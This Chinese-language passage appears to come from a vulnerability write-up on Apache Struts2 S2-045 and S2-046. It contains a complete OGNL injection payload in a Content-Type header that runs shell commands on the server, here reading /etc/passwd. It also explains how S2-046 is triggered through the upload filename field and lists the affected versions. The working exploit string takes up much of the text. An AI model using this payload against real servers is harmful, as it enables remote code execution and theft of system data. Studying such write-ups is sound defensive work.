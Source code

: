 任意命令执行 PoC，读取 `/etc/passwd` 文件

```
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

![s2-045-3](images/s2-045-3.png)

## S2-046

攻击者通过设置 `Content-Disposition` 的 `filename` 字段或者设置 `Content-Length` 超过 2G 这两种方式来触发异常并导致 `filename` 字段的 OGNL 表达式得到执行从而达到远程攻击的目的。该漏洞与 S2-045 漏洞成因一样，只是漏洞利用的字段发生了改变。

S2-045 是在 `Content-Type` 值注入 OGNL 表达式从而引起解析异常，S2-046 则是在上传文件的 `Content-Disposition` 中的 `filename` 参数存在空字节，在检查时抛出异常，从而进入 `buildErrorMessage()` 方法。实则 S2-045 和 S2-046 漏洞原理相同。

官方公告：[S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)

### 影响版本

- [x] Struts 2.3.5 - 2.3.31
- [x] Struts 2.5 - 2.5.10
